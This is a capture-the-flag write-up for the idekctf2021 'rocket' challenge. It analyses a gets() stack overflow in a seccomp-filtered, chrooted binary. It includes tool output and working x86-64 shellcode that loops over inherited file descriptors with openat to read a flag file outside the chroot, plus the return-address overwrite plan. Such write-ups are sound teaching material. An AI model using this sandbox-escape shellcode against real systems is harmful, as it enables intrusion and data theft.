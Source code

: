 # handout

**This challenge will only work remote because it requires a very specific 
filesystem setup that I don't feel like emulating right now**

## Tags

- x86-64
- seccomp
- stack buffer overflow
- idekctf2021

## Intro

A challenge from idekctf2021. This is a binary that uses `seccomp` to filter
allowed syscalls. This particular binary also `chroot`'s to a directory in tmp (most likely to prevent writing to files that get executed). We will need to analyze the sandbox environment to determine what is possible.

## Analysis

First we need to determine what protections we are dealing with. We will use `checksec` for this.

    $ checksec rocket
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

This is an `x86-64` ELF binary with seemingly no protections enabled. Let's use `ghidra` to examine the binary. The bug is very obvious

    printf("Here is a gift for your journey:%p\n",local_828);
    gets(local_828);
    install_syscall_filter();

This is a stack buffer overflow with `seccomp` filters enabled.

## Solution

First we need to determine which syscalls we are allowed to execute. To do this we can use [seccomp-tools](https://github.com/david942j/seccomp-tools). Run

    $ seccomp-tools dump ./rocket

Provide input so that the `seccomp` filters are submitted. The results look like

    $ seccomp-tools dump ./rocket
    Creating a jail at `/tmp/ccRUAB`.
    Here is a gift for your journey:0x7ffcfdb72c00
    hello world
     line  CODE  JT   JF      K
    =================================
     0000: 0x20 0x00 0x00 0x00000004  A = arch
     0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
     0002: 0x06 0x00 0x00 0x00000000  return KILL
     0003: 0x20 0x00 0x00 0x00000000  A = sys_number
     0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
     0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0006: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0008
     0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0008: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0010
     0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0010: 0x15 0x00 0x01 0x00000028  if (A != sendfile) goto 0012
     0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0012: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0014
     0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0014: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0016
     0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0016: 0x15 0x00 0x01 0x00000048  if (A != fcntl) goto 0018
     0017: 0x06 0x00 0x00 0x7fff0000  return ALLOW
     0018: 0x06 0x00 0x00 0x00000000  return KILL

We can only use the following syscalls

    sigreturn
    openat
    write
    sendfile
    read
    exit
    fcntl

A look at the binary in `ghidra` shows that it opens the `/tmp` directory
before calling `chroot` and never closes the `fd`. We can use our shellcode to call `openat` and open the flag file. Additonally the program opens several random file descriptors. To overcome this we will have our shellcode loop over every possible fd and attempt to open the flag file. When the `openat` call succeeds we break the loop. Here is our shellcode

        xor rdi, rdi     # get rdi to 3 initially
        inc rdi
        inc rdi
        inc rdi

    try_again:
        inc rdi               # increment test fd
        lea rsi, [rip + flag]
        mov rdx, O_RDONLY
        mov rax, SYS_openat
        syscall
        test rax, rax
        js try_again

    win:
        push rax            # read flag into memory
        pop rdi
        mov rsi, PTR_ADDR    # this will be the addr of our buffer - 30
        mov rdx, 0x30
        mov rax, SYS_read
        syscall

        xor rdi, rdi          # write flag to STDOUT
        inc rdi
        mov rax, SYS_write
        syscall

    flag:
        .ascii "../flag.txt"

To execute our shellcode we will write our shellcode first and then overwrite the return address on the stack with the address of our shellcode.
